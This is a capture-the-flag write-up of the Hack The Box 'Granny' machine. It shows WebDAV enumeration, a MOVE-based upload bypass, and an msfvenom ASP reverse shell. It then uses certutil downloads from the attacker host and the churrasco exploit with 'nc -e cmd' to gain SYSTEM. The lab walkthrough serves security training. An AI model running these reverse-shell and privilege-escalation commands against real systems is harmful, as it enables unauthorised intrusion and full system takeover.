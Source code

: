 # Granny

![image](https://user-images.githubusercontent.com/10210108/79370331-795c6200-7f20-11ea-894b-9e65b9ef47a0.png)

## Overview
Granny is a Windows 2003 box running IIS 6.0 and webdav. Webdav allowed anonymous uploads but required a bypass to upload an asp reverse shell. Once the shell was uploaded I got initial foothold by executing the uploaded file. I used an exploit called churrasco to call back to my machine with a shell as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* Front Page Version - 5.0.2.6790

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.15 -oN /mnt/data/boxes/granny/_full_tcp_nmap.txt
```
* 80/tcp - http

![image](https://user-images.githubusercontent.com/10210108/81867727-2eddfd80-953f-11ea-873a-b303b6b95bed.png)

**DavTest**

```
davtest -url http://10.10.10.15
```

![image](https://user-images.githubusercontent.com/10210108/81869423-0572a100-9542-11ea-95a2-c5f649b668a9.png)

## Steps (user)

Browsing to http://10.10.10.15 showed the default "Under Contruction" page and no other useful information. 

According to the nmap scan this server was running webdav so I ran a scan with [davtest](https://github.com/cldrn/davtest) which  tests uploading different executable file types. There were quite a few different files that could be uploaded and only html and txt could be executed.

I connected to the server using a webdav client called cadaver. After running the help command I learned that the command "MOVE" was available. Using MOVE I was able to get around the restrictons by uploading a file with a .txt extension and renaming it to asp.


I created an asp reverse shell with msfvenom and output it to rshell.txt and started a netcat listener (rlwrap nc -lvnp 4200).

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.24 lport=4200 -f asp > rshell.txt
```

I then connected to webdav via cadaver and uploaded rshell.txt 

```
cadaver 10.10.10.15
put rshell.txt
```

![image](https://user-images.githubusercontent.com/10210108/81870929-de699e80-9544-11ea-8de6-b643cc9fe7af.png)

With the file uploaded, I used 'move' to rename the file from rshell.txt to rshell.asp

```
move rshell.txt rshell.asp
```

![image](https://user-images.githubusercontent.com/10210108/81871996-e75b6f80-9546-11ea-89e8-a2868a23e9ad.png)

I browsed to http://10.10.10.15/rshell.asp and received a shell as 'nt authority\network service'

![image](https://user-images.githubusercontent.com/10210108/81871200-559f3280-9545-11ea-876f-21b5cdb1355d.png)

## Steps (root/system)

The systeminfo command showed that only one hotfix was installed. I used a tool called Windows Exploit Suggester to identify which exploits the box was vulnerable to. The tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](https://user-images.githubusercontent.com/10210108/81871704-5a181b00-9546-11ea-91ef-257cabe4bb2c.png)

After not having any much luck with the windows-exploit suggester results, I tried an exploit called churrasco.

> Additional info about [churrasco](https://www.exploit-db.com/exploits/6705)

First I downloaded the exploit from Re4son's github repo

```
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

In prepration to use the exploit to create a reverse shell with netcat, I copied the nc.exe binary to my working directory.

```
cp ~/tools/windows-binaries/nc.exe .
```

I started a reverse listener (nc -lvnp 42301) and started a python http server

```
python3 -m http.server 80
```

I downloaded the netcat and the exploit to the local box

```
certutil -urlcache -split -f http://10.10.14.24/nc.exe
certutil -urlcache -split -f http://10.10.14.24/churrasco.exe
```

The exploit was run, specifying the netcat command with my box's IP/port resulting in a shell as 'nt authority\system'

```
churrasco.exe "nc -e cmd 10.10.14.24 4201"
```

![image](https://user-images.githubusercontent.com/10210108/81998378-5953b780-9620-11ea-8bdc-e0ad87bceefa.png)

